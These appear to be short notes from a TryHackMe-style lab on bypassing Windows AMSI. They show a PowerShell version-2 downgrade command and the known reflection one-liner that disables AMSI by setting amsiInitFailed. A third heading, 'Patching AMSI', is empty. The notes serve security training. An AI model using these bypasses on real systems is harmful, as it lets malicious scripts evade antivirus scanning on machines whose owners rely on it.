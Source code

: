 
# PowerShell Downgrade

![]()

```PowerShell
C:\Users\THM-Attacker>PowerShell -Version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
```

![]()

![]()

# PowerShell Reflection

![]()

```PowerShell
PS C:\Users\THM-Attacker> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![]()

# Patching AMSI
